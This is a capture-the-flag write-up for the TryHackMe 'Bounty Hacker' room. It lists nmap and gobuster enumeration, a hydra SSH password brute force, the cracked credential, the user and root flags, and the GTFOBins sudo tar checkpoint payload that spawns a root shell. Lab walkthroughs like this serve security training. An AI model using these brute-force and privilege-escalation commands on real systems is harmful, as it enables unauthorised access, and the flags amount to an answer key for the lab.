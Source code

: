 # Bounty Hacker - THM Room
### Completed 1750 11 JAN 22
### d0nkeyk0ng787/gnome787

### Creds

SSH Login: lin:RedDr4gonSynd1cat3

### Enumeration

Run a basic nmap scan - nmap -sC -sV 10.10.193.77 -oN nmap/initial

Run a gobuster scan
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.193.77 -x php -o gobuster.out

The machine has ftp open with anonymous login enabled 

The ftp site has a couple files, one contains a name 'lin' and a list that looks interesting

We can use that list to try and bruteforce a password for ssh: hydra -l lin -P locks.txt 10.10.193.77 -t 4 ssh

This gives us a password 'RedDr4gonSynd1cat3'

### Priv Esc

We can use this account and gain access to the machine

User Flag: THM{CR1M3_SyNd1C4T3}

From here we can try and priv esc this box

Obviously start with the 'sudo -l' command which suggests we can run '/bin/tar' as sudo

We can head to GTFOBins and grab the payload for this exploit: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

Now we are root

Root Flag: THM{80UN7Y_h4cK3r}




